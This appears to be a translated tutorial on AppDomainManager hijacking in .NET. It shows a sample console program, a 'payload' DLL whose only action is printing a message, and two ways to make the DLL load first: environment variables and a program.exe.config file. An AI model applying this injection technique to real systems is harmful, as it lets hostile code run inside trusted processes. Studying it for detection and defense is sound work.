

1. Use Visual Studio, select c# development environment, create a new console application, project name: program, the code is as follows:
using System;
public class Program
{
public static void Main()
{
Console.WriteLine("Inside the App");
}
}
Compile and generate program.exe
2. write payload Dll
Select c# development environment, create a new class library, project name: DomainManager, the code is as follows:
using System;
namespace DomainManager
{
public class InjectedDomainManager : AppDomainManager
{
public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
{
base.InitializeNewDomain(appDomainInfo);
Console.WriteLine("Blah From AppMgr");
}
}
}
Compile and generate DomainManager.dll
3, set the AppDomainManager hijacking program to start
Put DomainManager.dll in the same directory
method 1:
Cmd sets the environment variable:
set APPDOMAIN_MANAGER_ASM=DomainManager, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=DomainManager.InjectedDomainManager
Execute program.exe, and by looking at the echo, it is found that DomainManager.dll is executed before program.exe.
Successful implementation of hijacking, complete operation as shown below

Note: the order of execution
The method of setting environment variables through cmd will only work on the current cmd, not enough.
Method 2:
A more general approach: configuring the config file
Create a new program.exe.config with the following contents:
<?xml version="1.0" encoding="utf-8"?>
<configuration>
<startup>
<supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.0"/>
</startup>
<runtime>
<appDomainManagerType value="DomainManager.InjectedDomainManager" />
<appDomainManagerAssembly
value="DomainManager, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />
</runtime>
</configuration>
Note:
Config file naming format: exe+.config
Successful implementation of hijacking, complete operation as shown below